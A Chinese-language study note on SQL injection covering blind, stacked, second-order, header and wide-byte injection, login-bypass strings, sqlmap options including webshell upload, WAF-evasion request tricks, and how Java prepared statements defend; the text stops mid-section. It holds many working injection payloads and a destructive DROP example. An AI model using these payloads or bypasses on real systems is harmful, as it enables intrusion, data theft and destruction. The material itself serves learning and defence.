- 查找name字段中含有ab，且ab前有字符的所有数据(.匹配任意字符)： select name from admin where     name regexp ' .ab ';
- 查找name字段中含有at或bt或ct的所有数据： select name from admin where name regexp     ' [abc]t ';
- 查找name字段中以a-z开头的所有数据：   select name from admin where name     regexp ' ^[a-z] ';
- 已知数据库名为 security，判断第一个表的表名是否以 a-z 中的字符开头，^[a-z] --> ^a ; 判断出了第一

个表的第一个字符，接着判断第一个表的第二个字符 ^a[a-z] --> ^ad ; 就这样，一步一步判断第一个表

的表名 ^admin$ 。然后 limit 1，1 判断第二个表

### 堆叠注入

在我们无法使用**select**查询时候，堆叠注入就很有用了

```sql
#在sql中，分号;是用来表示一条sql语句的结束，试想一下我们在 ; 结束后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。
#而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别呢？区别就在于union 或者union all执行的语句类型是有限的，只可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。
#用户输入：root';DROP database user；服务器端生成的sql语句为：Select * from user where name='root';DROP database user；当执行查询后，第一条显示查询信息，第二条则将整个user数据库删除。
show databases;查看全部库
show tables;查看当前库的全部表
desc  `表名`：查看表的结构 .要用`包裹住  在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符。有些表需要`包裹，有些不需要。

#预处理语句PREPARE：
PREPARE hacker from concat('s','elect', ' * from `表名` ');EXECUTE hacker;#
#这样我们拼接了select 

#在prepare被过滤了，使用HANDLER [表名] OPEN;语句打开一个表，使其可以使用后续HANDLER [表名] READ；
#该表对象未被其他会话共享，并且在会话调用HANDLER [表名] CLOSE，或会话终止之前不会关闭
HANDLER 表名 OPEN;                                                     打开表
HANDLER FlagHere READ FIRST;                                          读表 
HANDLER FlagHere  close;#                                             关闭这个流
```

上面的两行语句要写成一行命令




### 二次注入（存储型注入）

1. 二次注入是指攻击者构造的恶意数据存储在数据库后，恶意数据被读取并进入到SQL查询语句所导致的注入。防御者可能在用户输入恶意数据时对其中的特殊字符进行了转义处理，但在恶意数据插入到数据库时被处理的数据又被还原并存储在数据库中，当Web程序调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。

2. 即当注入时第一次被转译成字符储存到数据库 第二次进行操作调用数据库时开始执行注入代码。

3. 比如注册用户后登陆查询啊。写了一些东西然后查询啊。

4. 比如我们注册了一个admin'#的用户（和admin不是同一个用户)，只是对特殊字符转义了，但是还是插入数据库里面了，然后修改admin'#的密码时候，改掉了admin的密码。

5. 1. `"UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass'     ` ";
    2. 对该用户的密码进行更新，我们将密码的判定条件注释掉了。

### header注入

1. 头部注入-Uagent字段 本质是头部字段与name passwd一样都insert数据库了，可以看页面是否回显了头部的一些信息，判断是否有头部注入
  insert语句在value部分与平时一样可以进行其它sql操作,  在http首部更改user-agent的值通过双注入注入  与平常name注入无区别  User-Agent:'and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '
2. 基于头部的Referer： 与uagent一样
3. cookie注入-Content字段-基于错误
  cookie中保存了用户名，然后后台通过cookie内的用户名进行sql操作，所以可以通过在cookie内将用户名部分负载载荷，就可以和普通注入一样
4. 如果cookie是被编码了的（例如base64）则 payload同样需要编码，
5. cookie后来进行sql查询时可能也被单引号，双引号编码了，所以也要闭合,多试几次引号，括号。

### **宽字节注入：**

什么是宽字节（字符大小两个字节的）：

- 宽字节是相对于ascII这样单字节而言的；像GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节
- GBK是一种多字符的编码，通常来说，一个gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节
- 转义函数：为了过滤用户输入的一些数据，对特殊的字符加上反斜杠“\”进行转义；Mysql中转义的函数addslashes，mysql_real_escape_string，mysql_escape_string等，还有一种是配置magic_quote_gpc，不过PHP高版本已经移除此功能。

**sql的执行过程：**

- php根据`character_set_client`告诉服务器应该怎么解码传过去的字符串。不进行编码。
- mysql服务器通过character_set_connection 来解码传过来的二进制流
    - 有人可能会奇怪，为什么会有这个字符集，直接用 character_set_client 来解码不就行了，它存在的意义是啥呢?
        - 其实主要是为了作用上的的分离，character_set_client 主要用来客户端的编码，
        - 而 character_set_connection 主要是为了赋予开发人员解析语义的自由，比如考虑 SELECT LENGTH('中') 这样的场景，如果采用 GBK 一个汉字 2 个长度，结果是 2，而如果是 UTF-8 编码，则结果是 3，所以额外设定一个 character_set_connection 编码，让开发人员可以根据需要更自由地定义不同的业务场景（没看懂）
- character_set_result: 
    - 结果集返回给客户端采用的编码字符集
- 项目接收到数据后，根据本地配置的字符编码展示查询结果；
- 如果未设置` characterEncoding`（？？？？？？？？），那么 character_set_client，character_set_connection，character_set_result 这三的编码字符集与 character_set_server 的设置相同，
- 如果设置了` characterEncoding`，那么这三者的值与 characterEncoding 相同。
- PHP代码中有mysql_query("SET NAMES 'gbk'");那就代表character_set_client，character_set_connection，character_set_results的值都是gbk，

宽字节注入

- **只要求character_set_client编码gbk不要求php默认编码**，

- 测试：

    - 当url输入%df%27，php设置默认gbk的话，%df%27并没有对应的gbk编码，那么显示就会乱码。但是保存的还是二进制的 `/xdf/x27`。

    - 然后经过addslashes函数，对每一个敏感字符进行转义处理。`/xdf/x27`就变成了`/xdf/x5c/x27`。显示到页面上就是`運'`

        ```php
        <!DOCTYPE html>
        <html>
        <head>
        <meta charset="gbk" />
        <title>宽字节测试</title>
            <meta charset="utf-8"/>
        </head>
        <body>
        <form action="test.php" method="get">
           <b>请输入值：</b> <input type="text" name="id"/>
        </form>
        
        <?php
        //连接数据库部分，注意使用了gbk编码
        $conn = mysqli_connect('localhost', 'javasec', 'lambo123') or die('bad!');
        if (mysqli_connect_errno($conn)) 
        { 
            echo "连接 MySQL 失败: " . mysqli_connect_error(); 
        } 
        mysqli_query($conn,"SET NAMES 'gbk'");
        mysqli_select_db($conn,'java_sec_code');
        
        //执行sql语句
        $id = isset($_GET['id']) ? addslashes($_GET['id']) : 1;
        $sql = "SELECT * FROM users WHERE id='{$id}'";
        $result = mysqli_query($conn,$sql);
        echo "<br>"."执行的sql语句是:".$sql."<br>";
        $row = mysqli_fetch_array($result,MYSQLI_NUM);
        
        echo "输出结果";
        print_r($row);
        mysqli_free_result($result);
        ?>
        </body>
        </html>
        ```

        输入`http://localhost:38888/?id=%df%27 or 1=1 %23`发现产生了sql注入，显示了全部数据。

    - 将php默认编码设置成utf-8来测试。

        - **发现还是能注入。php编码并不像python3，java一样属于三明治结构。**
        - 好像和python2很像。
        - python2里的str类，其实是个不存储编码信息的类型。也就是说它把内容二进制按照逐个字节来处理和比对、运算。[str](https://www.zhihu.com/search?q=str&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"answer"%2C"sourceId"%3A"88619826"})类型的「字符串」如果拿来迭代一下，会直接拆成一个个字节来处理。
        - 但是，一旦我们需要对非单字节编码的单个字进行处理的时候，python只提供了一个类型来解决问题，即unicode类（注意，实质上py里这个类是用16位或32位内码存储的，并不是utf32/unicode原编码），所以常常需要相互转换，将用到encode/decode两个方法。原则上是，decode方法是将一个str按照指定编码解析后转换为unicode，encode方法则是把一个unicode对象用指定编码表示并存储到一个str对象里。
        - 具体细节还不会。

- 宽字节防范：

    - character_set_client=BINARY
        - 将传入数据当作ascii看，这样就没有多字节吞反斜杠的问题了，每个字节都是“独立”的。

### 万能密码

```sql
sql="select*from test where username=' XX ' and password=' XX '  ";
admin' or '1'='1          XX     #万能密码(已知用户名)
XX                 'or'1'='1     #万能密码(不需要知道用户名)  and优先级比or高
'or '1'='1'#             XX       #万能密码(不知道用户名)
```


## sqlmap教程

sqlmap是一个注开源渗透测试工具，python脚本，可以自动检测和利用SQL注入漏洞并接管数据库服务器。

> l  B: Boolean-based blind SQL injection（布尔型注入）
>
> l  E: Error-based SQL injection（报错型注入）
>
> l  U: UNION query SQL injection（可联合查询注入）
>
> l  S: Stacked queries SQL injection（可多语句查询注入）
>
> l  T: Time-based blind SQL injection（基于时间延迟注入）
>
> l  Q: Inline SQL Injection (内联注入)

sqlmap基本使用

* 使用`sqlmap -h`可以查看帮助手册，使用`sqlmap -hh`可以查看详细的帮助手册。内容很多，输入`sqlmap -hh > help.txt`可以将界面信息保存到一个文本文件中。

* 使用工具去尝试注入，在命令行输入`sqlmap -u "http://localhost/sqli-labs-master/Less-2/index.php?id=1"`,从注入过程中可以得出以下几点判断：
    * 目标URL是否有防火墙的保护
    * 连接是否稳定
    * 查看id的值是否动态可变
    * 判断出数据库类型
        此时sqlmap会提示是否需要继续猜测其他数据库，如果确定是某个数据库，就输入**n**，之后再输入**Y**。之后开始判断数据库的版本，如果确定id可以注入，则输入**N**，不尝试其他的字段。最后得出结果，在结果中可以得到以下信息
        * HTTP(s)请求数，四种（基于GET类型、基于错误、基于时间、基于UNION）
        * 操作系统
        * 网页应用技术版本（Apache、PHP等）
        * 数据库版本（版本不一定很精确）
    
* **目标**

* | -u 链接         | 当注入点参数大于1时 url需要加双引号                          |
    | --------------- | ------------------------------------------------------------ |
    | -m  BULKFILE    | 将目标地址保存在文件中，一行为一个URL地址进行批量检测。      |
    | -r  requestfile | 从文件里加载数据包，如果请求是HTTPS的时需要配合这个–force-ssl参数来使用，或者可以在Host头后门加上:443 |

- **请求：**

- | **--data=****"a=1&b=1"** | **通过****POST****发送数据参数** **适合在没有数据包文件的情况下** |
    | ------------------------ | ------------------------------------------------------------ |
    | --cookie=""              | 设置cookie    `python sqlmap/sqlmap.py -u http://www.any.com/sqli/Less-20/index.php --cookie "uname=admin" --level 2`  如果想用cookie注入需要设置level为2 |
    | --cookie-del=COO..       | 用来分隔cookie的字符串值                                     |
    | --user-agent=AGENT       | 默认sqlmap的HTTP请求头中User-Agent值是：`sqlmap/1.0-dev-xxxxxxx([http://sqlmap.org](http://sqlmap.org/))`可以使用–user-agent参数来修改 |
    | --random-agent           | 参数来随机的从./txt/user-agents.txt中获取。 host，referer之类的也是这样设置 |
    | --ignore-401             | Ignore  HTTPError 401 (Unauthorized)忽略HTTP 401错误（未授权的） |
    | –proxy=PROXY             | 使用代理服务器连接到目标URL                                  |
    | –force-ssl               | 强制使用SSL/HTTPS                                            |

- **优化**

    1. -o        打开所有的优化开关

- **注入**

    ```bash
    -p paramete     指定参数
    
    --dbms=DBMS     强制后端的DBMS为此值
    
    --os=OS      强制后端的DBMS操作系统为这个值
    
    –level=LEVEL   执行测试的等级（1-5，默认为1） **level**级别设置越高，payload使用的越多。
    –risk=RISK    执行测试的风险（0-3，默认为1） 等级越高，SQL语句越复杂，但不是越高越好，可能会被防火墙封掉IP
    
    -v   VERBOSE信息级别: 0-6 （缺省1），其值具体含义：
    	“0”只显示python错误以及严重的信息；
    	1同时显示基本信息和警告信息（默认）；
    	“2”同时显示debug信息；
    	“3”同时显示注入的payload； 选这个
    	“4”同时显示HTTP请求；
    	“5”同时显示HTTP响应头；
    “6”同时显示HTTP响应页面；如果想看到sqlmap发送的测试payload最好的等级就是3。
    ```

    

- **知道存在漏洞后：**

- | **-a --all**                                                 | **检索全部**                                                 |
    | ------------------------------------------------------------ | ------------------------------------------------------------ |
    | -b --banner                                                  | 返回数据库的版本号                                           |
    | **--current-db**                                             | **检索当前数据库**                                           |
    | **--current-user**                                           | **检索当前用户**                                             |
    | **--**hostname                                               | 获取数据库服务器的主机名称                                   |
    | **--is-dba**                                                 | **检测****DBMS****当前用户是否****DBA**                      |
    | **--users**                                                  | **获取全部数据库用户**                                       |
    | **--passwords**                                              | **列出用户密码的****hash****值**                             |
    | **--dbs**                                                    | **获取全部数据库**                                           |
    | **--tables**                                                 | **列出全部表**                                               |
    | **--columns**                                                | **列出全部列**                                               |
    | **--count**                                                  | 获得数据的个数 sqlmap.py -u url –count -D testdb             |
    | **-D DB**                                                    | **指定数据库** **逗号分隔数据库名，表列同理**                |
    | **-T TBL**                                                   | **指定表**                                                   |
    | **-C**    **“”，“”** **--dump**                              | **指定列**                                                   |
    | **--dump**                                                   | **dump****字段内容****,****如果字段内容多** **可以**     **--start 1 --stop 100** **取****100****条数据** |
    | **--os-shell**                                               | sqlmap会上传两个页面，前者为文件上传，后者为命令执行执行,可以利用文件上传页面上传其他shell，获得更好的体验。 |
    | **--sql-shell**                                              | 返回一个sql shell，用以执行sql语句，但是一般只支持查询命令，**其他命令需要漏洞存在堆叠注入。** |
    | --file-write "/localwebshell"     --file-dest "网站的绝对路径/1.php"。 | 创建webshell.txt，内容为一句话木马，之后需要两个参数即本地文件地址和目标文件地址,用户必须具有最高权限 |
    | **--roles**                                                  | **列出数据库管理员权限**                                     |

## 绕过简单过滤/转义

- sql中运算优先级and高于or和^	,所以`username=’admin’ and password=’’or 1=1`

- **在输入用户名那里输入关键字看哪些被过滤了**。如果被过滤字符串可以**双写绕过**。

- 过滤引号：
    - 利用name和passwd同时存在where中  账号输入 1\ 密码输入or 1=1 --+ 后拼接出来的语句是`select      from xxx where id='1\' and pw='or 1=1--+'  `这样引号就闭合了

- 过滤注释：
    - 当我们在用户名字前面输入%23 # --+而仍然是以该用户登陆，则过滤了# --+
    - 使用` ' or '1'='1 `或者and来闭合后面的引号,之后的注入，oder  by不能用，但是union select可以用。`id=-1' union     select 1,2,3 and '1'='1`
    - 使用除法 比如SQL语句`id='1'/1=(0)/'1'='1' ` 先算除法后等号，从左向右运算。‘1’被当成数字1。id=1/1=(0)/1=1。id=1=0=1。如果第一条数据id为1 则查询结果为0，进而查询第二条会返回1则会爆出数据，后续数据通过在等号之间搞个双注入爆出。


- **过滤了or和and：**

    - **可以用数学符号** **||和&&（要编码）**
    - 双写oorr     anandd绕过
    - **大小写变形：**如：Or、OR、oR等

    - url编码：%6fr  %6f就是o的url编码，%26（&的url编码）。
    - 添加注释` /**/： or/**/   select/**/ from/**/`

    - **过滤了or和and的盲注：**
    - **这样order by也不能用了，可以试试group by**

- **过滤关键字select from limit之类的：**


    - 最常用的绕过方法就是用`/**/，<>`，分割关键字：`sel<>ect        sel/**/ect`

- 双写过滤：selselectect
  - 大小写过滤：Select
  - 编码过滤：url编码绕过      16进制编码绕过 ASCII编码绕过

- **过滤了空格**：可以利用`/**/ /*1*/`当成空格

    - 双空格
    - 用括号绕过
    - 用回车代替 ,ascii码为chr(13)chr(10)，url编码为%0d%0a
    - **字节的伎俩看看能不能代替空格** **用其他字符绕过** **，用以下代替中间的空格** %09 TAB键（水平）%0a 新建一行%0c 新的一页%0d return功能%0b TAB键（垂直）%a0 空格

- 过滤逗号： select 1,2,3

    - 简单注入可以使用join方法绕过,union     select * from (select 1)a join (select 2)b join (select 3)

    - 对于盲注的那几个函数substr(),mid(),limit

    - substr和mid()可以使用from      for的方法解决

    - substr(str from pos      for len) //在str中从第pos位截取len长的字符
    - mid(str from pos      for len)//在str中从第pos位截取len长的字符
    - limit可以用offset的方法绕过:  limit 1 offset 1
    - 使用substring函数也可以绕过:  substring(str from pos)      //返回字符串str的第pos个字符，索引从1开始

- 过滤等号：

    ```
    可以用 like 模糊测试代替   
    where table_schema like database() 
    
    if(abs(strcmp((ascii(mid(user()from(1)for(2)))),114))-1,1,0)   
    regexp正则匹配
    find_in_set()
    ```

- 数字被过滤了：使用浮点数1.0 2.0

- `<、>`被过滤：


    - 利用函数代替
    
    - 如盲注时经常用到比较，这时候要是比较符号被注释了不能用平常的方法了，所以需要用某些函数如greatest()
    
        ```
        【greatest(n1,n2,n3,…)函数返回输入参数(n1,n2,n3,…)的最大值】、least()等，
        比如语句：select * from users where id=1 and ascii(substr(database(),0,1))>64 
        就可以替换成：select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
        ```
    
    - strcmp(str1,str2)     //当str1=str2，返回0，当str1>str2，返回1，当str1<str2，返回-1
    
    - in 操作符
    
    - between     n and m     //选取介于两个值之间的数据范围。这些值可以是数值、文本或者日期。

- **转义了各类符号：**
    - **宽字节注入：** 吃掉转义符号


## 绕过waf

>  https://xz.aliyun.com/t/7767
>
>  https://www.hacking8.com/sectips/bypasswaf.html

- 各种代理转发的waf都会先将发送的流量解析一遍，通过层层的判断最后发送到源服务器。bypass的思路很简单，就是找出waf是如何解析流量的，通过符合协议规范的“畸形”数据包让waf认为是正常流量达到bypass。一般来说http协议和根据网站的环境特点(不同类型的网站有不同的特点)来进行bypass。
- 垃圾数据填充

- 空格：用括号括起来 **，括号可以起连接作用**

    - |          | **MySQL**                                          | **Oracle**            | **MSSQL**        |
        | -------- | -------------------------------------------------- | --------------------- | ---------------- |
        | 注释符   | /**/、#、/*!*/、/*!50000xx*/、--、-- -       、--+ | --、/**/ --%0a-       | --、/**/、--%0a- |
        | 空白字符 | %09%0A%0B%0C%0D%20    ^                            | %00%09%0A%0B%0C%0D%20 | %00-%20          |

    - `select(database())  where(table_schema)like(database())) `只能扩数据，不能扩关键字

- **避免关键字检测**：

    - 检测SELECT，
        - SQL查询语句select后面可以接一些特殊字符，这些字符与select相结合可以达到绕过waf目的，除了select 语句之外     union\from等关键字前后也可以连接一些特殊字符，这些关键字前后就可以作为fuzz的点。
        - `+ - @ !  ~   比如 select@user from table`
        - `'   "  比如select'user' from table    select"user" form table`
        - `{   select{x'user'},.7from{x 'mysql'.'user'}`

    - 可结合注释符--、/*、空白字符等。

- 等价替换：waf会对一些常见的攻击语句进行拦截，我们可以换个语句以实现同样的功能。

    - 函数替换：

        - 截取字符串是SQL注入利用技术里面的常用功能，通常使用mid(string,1,1)

        - 使用填充函数替代截断函数

             ```sql
             substr(user() from 1 for 1)
             replace(LPAD(user(),2,1),LPAD(user(),2-1,1),"")  Lpad填充函数，
             	LPAD(str,len,padstr)  (要查询的字段，填充后字符长度，用来填充的字段)，lpad是在左边填充，rpad是在右边填充，可以用作截断字符
             	REPLACE(String,from_str,to_str) 即：将String中所有出现的from_str替换为to_str。
             LPAD(REVERSE(TRIM( lpad(user(),1,SPACE(1)) )),1,SPACE(1);
             
             ```

        - `ascii(c)、ord(c) <=> conv(hex(c),16,10)`

        - `case when  then 1 else 0 end 代替if `

- 基本的技巧

    - 参数污染(HPP):

        - https://shuaizhupeiqi.github.io/2018/10/10/sql%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%8F%82%E6%95%B0%E6%B1%A1%E6%9F%93%E7%BB%95waf/

        - ```
            Web服务器               参数获取函数                       获取到的参数
            
            PHP/Apache           $_GET(“par”)                       Last
            JSP/Tomcat           Request.getParameter(“par”)       First
            Perl(CGI)/Apache       Param(“par”)                       First
            Python/Apache       getvalue(“par”)                   All (List)
            ASP/IIS               Request.QueryString(“par”)       All (comma-delimited string)
            ```

        - 服务器两层架构：

            - 
            - 此处服务器端由两部分组成：第一部分为Tomcat，它是Java的web容器，能够处理jsp。第二部分为Apache，它本身只支持静态网页，但是可以通过插件支持php
                工作流程：客户端向服务器发起请求，请求到tomcat服务器，然后tomcat再向apache服务器请求数据，最后返回数据路径相反。
            - 由于服务器架构的原因，waf只可能检测其中一个参数的值，于是就在其他参数进行注入。

    - 协议未覆盖绕过WAF:

        ```
        POST 请求常用有2种参数提交方式：
        
        Content-Type: application/x-www-form-urlencoded;
        
        Content-Type: multipart/form-data;
        
        Waf未能覆盖Content-Type: multipart/form-data从而导致被绕过。或者WAF会认为它是文件上传请求，从而只检测文件上传，导致被绕过。如图，下面的WAF就存在被绕过的情况，是典型的协议未覆盖。
        ```

        - 对于get请求，同样提交post请求。payload同样是在url里面，但是waf有可能只检测了post body，忘记了url检测了。

    - 畸形请求包：

        - 常见HTTP WAF绕过清单

        - **添加一个换行**

            ```
            
            GET /login HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **请求头换为小写或更换字符**

            ```
            get /login HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            lol /login HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **请求头后面加tab(IIS)**

            ```
                GET /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **GET /login?shell_exec HTTP/1.1**

            ```
            GET /login?shell.exec HTTP/1.1
            GET /login?shell[exec HTTP/1.1
            GET /login?shell%5bexec HTTP/1.1
            GET /login?shell%2eexec HTTP/1.1
            GET /login?shell%5fexec HTTP/1.1
            GET /login?shell%20exec HTTP/1.1
            ```

            **GET /login.php?pam_param=test3**

            ```
            GET /login.php?pam_param=test1&pam[param=test2&pam%5bparam=test3
            ```

            **GET /login.php?hello=world HTTP/1.1**

            ```
            GET /login.php?hello%00another_text=world HTTP/1.1
            ```

            **HTTP Request - 绝对地址**

            ```
            GET http://localhost/login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **双HOST头**

            ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com
            Host: localhost
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **Host 小写**

            ```
            GET /login.php HTTP/1.1
            host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **Host 不加空格**

            ```
            GET /login.php HTTP/1.1
            Host:favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **Host tab分隔**

            ```
            GET /login.php HTTP/1.1
            Host:   favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **Host 添加特殊符号**

            / : \x00 \x20 \x09 \xad (IIS)

            例子:

            ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com:12345
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            GET /login.php HTTP/1.1
            Host: favoritewaf.com ignored.text
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            ```

            **Content-Type 其他类型**

            ```
            POST /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            Content-Type: application/another-text/+++x-www-form-urlencoded
            
            hello=world
            ```

            **HTTP request 错误的 Content-Length（长度小于指定的）**

            ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            Content-Length: 1
            
            AAAAAAAA
            ```

            **双 Content-Type**

            ```
            Content-Type: multipart/form-data; boundary=ZZZ
            Content-Type: multipart/form-data; boundary=AAA
            ```

            **Content-Disposition**

            在multipart协议中，一个文件上传块存在多个Content-Disposition，将以最后一个Content-Disposition的filename值作为上传的文件名。许多WAF解析到第一个Content-Disposition就认为协议解析完毕，获得上传的文件名，从而导致被绕过。

            ```
            GET /login.php HTTP/1.1
            Host: favoritewaf.com
            User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
            Accept-Language: en-us
            Accept-Encoding: gzip, deflate
            Connection: Keep-Alive
            Content-Type: multipart/form-data; boundary=--------1218108630
            
            ----------1218108630
            Content-Disposition: form-data; name="hello"
            
            world
            ----------1218108630--
            Content-Disposition: form-data; name="hello"
            Content-Disposition: form-data; name="hello
            Content-Disposition: form-data; name="hello"world"
            Content-Disposition: attachment; name="hello"
            Content-Type: multipart/form-data; boundary=x
            
            
            --x
            Content-Disposition:
            test1;
            --x
            test2;
            --x--
            test3;
            name="hello"
            
            world
            ```

            **Boundary****PHP**

            ```
            Content-Type: multipart/form-data; myfavoriteboundaryis=X; boundary=Hello;
            ==
            Content-Type: multipart/form-data; boundary=X;
            ```

            **Nullbyte**

            ```
            Content-Type: multipart/form-data; boundary=HELLO\x00XXXXXXXXX
            ==
            Content-Type: multipart/form-data; boundary=HELLO
            ```

            **忽略 Content-Length**

            ```
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 11
            
            hello=world
            ```

            ==

            ```
            Content-Length: 22
            Transfer-Encoding: chunked
            
            0B
            hello=world
            0
            ```

            ==

            ```
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 0
            Transfer-Encoding: chunked
            
            3
            hel
            3
            lo=
            3
            wor
            2
            ld
            0
            ```

- 分块传输：

    - 在通过http传输文件的时候，通常会有一个`Content-Length`用来指定文件的长度，比如传输图片，静态页面，客户端也以`Content-Length`作为接收内容结束的标志，接收完毕后就可以断开连接了。但是有时候发送方并不能确定内容的长度，造成的影响就是：接收方无法通过`Content-Length`得到报文体的长度，也就无法得知什么时候应该中断连接。

        为此我们需要一个新的机制：不依赖头部的长度信息，也能知道实体的边界。

    - HTTP 1.1引入了分块传输编码的方式。只要在header头部加入 `Transfer-Encoding: chunked` ，就代表这个报文采用了分块编码。此时不用指定`Content-Length`接收方也可以知道什么时候传输结束了，只需要约定一个信号即可，比如，接收方只要接收到一个长度为0内容为0的分块，则代表传输完毕。具体的优点可参阅：[维基百科](https://zh.wikipedia.org/wiki/分块传输编码)

    - http允许我们将post的body部分切成多个部分，这样关键字就被切开了。

    - 标准的分块传输编码格式如下：

        `php识别 [chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0][\r\n][\r\n]`

    - 以下格式也可被识别：`php [chunk size;other data][\r\n][chunk data]`

        - 其中的分号之后的other data是无关数据。  还可以填充垃圾数据了

    - 一个简单的分块传输HTTP请求如下：

        ```http
        POST /inject.php HTTP/1.1
        Accept-Encoding: gzip,deflate
        Transfer-Encoding: chunked        注意加上Transfer-Encoding: chunked的头部
        Connection: close
        Accept: */*
        Host: 172.20.10.2:8011
        Cache-Control: no-cache
        Content-Type: application/x-www-form-urlencoded; charset=utf-8
        Content-Length: 48
        
        6;kxebH
        id=123
        b;pAo6m
        12345678911
        0
        
        ```

        我们传输的数据主体id=123+12345678911分块后分别是6位和11位，上面的6和b就是块数据长度的16进制数，

        服务器输出id的值

         ```http
         HTTP/1.1 200 OK
         Date: Fri, 24 May 2019 02:17:07 GMT
         Server: Apache/2.4.7 (Ubuntu)
         X-Powered-By: PHP/5.5.9-1ubuntu4.17
         Content-Length: 14
         Connection: close
         Content-Type: text/html
         
         12312345678911
         ```


## ctf中的sql注入题目

## 预编译下的sql注入

> https://xz.aliyun.com/t/10686
> https://www.zhihu.com/question/43581628

java下的预编译，正确设置好了就无法进行sql注入了。

最简单的jdbc sql语句

```java
Class.forName(driver);
Connection con = DriverManager.getConnection(url, user, password);
Statement statement = con.createStatement();
String sql = "select * from users where username = '" + username + "'";

ResultSet rs = statement.executeQuery(sql);
while (rs.next()) {
    String res_name = rs.getString("username");
    String res_pwd = rs.getString("password");
    String info = String.format("%s: %s\n", res_name, res_pwd);
    result.append(info);
}
rs.close();
con.close();
```

`http://localhost:8080/sqli/jdbc/vuln?username='or 1%23`直接就把所有用户信息打印出来了

有预编译的jdbc sql语句

```java
String sql = "select * from users where username = ?";
PreparedStatement st = con.prepareStatement(sql);
st.setString(1, username);

ResultSet rs = statement.executeQuery(sql);
while (rs.next()) {
    String res_name = rs.getString("username");
    String res_pwd = rs.getString("password");
    String info = String.format("%s: %s\n", res_name, res_pwd);
    result.append(info);
}
rs.close();
con.close();
```

在使用预编译之后，就没有打印出信息了。

#### 预编译的原理

与Statement的区别在于PrepareStatement会对SQL语句进行预编译，预编译的好处不仅在于在一定程度上防止了sql注入，还减少了sql语句的编译次数，提高了性能，

**其原理是先去编译sql语句，无论最后输入为何，预编译的语句只是作为字符串来执行，而SQL注入只对编译过程有破坏作用，执行阶段只是把输入串作为数据处理，不需要再对SQL语句进行解析，因此解决了注入问题。**

PrepareStatement防御预编译的写法是使用?作为占位符然后将SQL语句进行预编译，由于`?`作为占位符已经告诉数据库整个SQL语句的结构，即?处传入的是参数，而不会是sql语句，所以即使攻击者传入sql语句也不会被数据库解析。

**断点调试（在`st.setString(1, username);`）处。**

> 这里是在java层面上对数据的特殊字符进行了转义处理。本质上处理不处理好像都没问题，反正数据库已经预编译了。
>
> 然后还会在输入的数据左右添加单引号，表明数据是一个字符串。

一直步入到setString方法

```java
 public void setString(int parameterIndex, String x) {
        if (x == null) {
            this.setNull(parameterIndex);
        } else {
            int stringLength = x.length();
            byte[] parameterAsBytes;
            if (this.session.getServerSession().isNoBackslashEscapesSet()) {..............}
        String parameterAsString = x;
        boolean needsQuoted = true; //这里有一个名为needsQuoted的布尔变量，默认为true
        if (this.isLoadDataQuery || this.isEscapeNeededForString(x, stringLength))
```

然后进入if判断，其中有一个方法为isEscapeNeededForString，步入该方法。

```java
private boolean isEscapeNeededForString(String x, int stringLength) {//x:"'or 1#"
    boolean needsHexEscape = false;

    for(int i = 0; i < stringLength; ++i) {
        char c = x.charAt(i);
        switch(c) {
            case '\u0000':
            case '\n':
            case '\r':
            case '\u001a':
            case '"':
            case '\'':
            case '\\':
                needsHexEscape = true;
        }

        if (needsHexEscape) {
            break;
        }
    }

    return needsHexEscape;
}
```

步入后发现有一个布尔的needsHexEscape，默认为false，然后将字符串，也就是传入的参数admin'进行逐字解析，判断是否有非法字符，如果有则置needsHexEscape为true且break循环，然后返回needsHexEscape。

我们传入了单引号，置needsHexEscape = true后直接break掉循环，然后直接返回setString方法。经过if判断后运行if体里面的代码，首先创建了一个StringBuilder，长度为传入参数的长度*1.1，先添加进去一个单引号，然后遍历我们输入的x数据，然后switch匹配特殊字符，此switch体的作用就是对正常的字符不做处理，直接向StringBuilder添加同样的字符，如果非法字符，则添加转义后的字符，遍历完成后，添加进去一个单引号。

经过上述之后，我们传入的单引号就被转义了。

然后根据要插入占位符的位置进行插入

```java
